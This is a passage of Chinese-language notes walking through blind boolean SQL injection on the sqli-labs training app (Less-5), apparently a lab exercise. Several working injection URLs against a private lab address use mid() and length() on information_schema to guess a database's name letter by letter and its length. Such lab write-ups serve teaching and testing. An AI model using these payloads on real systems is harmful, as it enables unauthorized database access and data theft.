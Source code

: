 显然这样就判断出数据库的第一个字母是`i`

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20schema_name%20from%20information_schema.schemata%20limit%200,1),2,1)=%27n%27)--+`

![](assets/markdown-img-paste-20180418155029695.png)

第二个字母是`n`

不知道第一个数据库的长度？看看下面

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20schema_name%20from%20information_schema.schemata%20limit%200,1))=18)--+`

![](assets/markdown-img-paste-2018041815542653.png)

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20schema_name%20from%20information_schema.schemata%20limit%200,1))=17)--+`

![](assets/markdown-img-paste-20180418155500242.png)
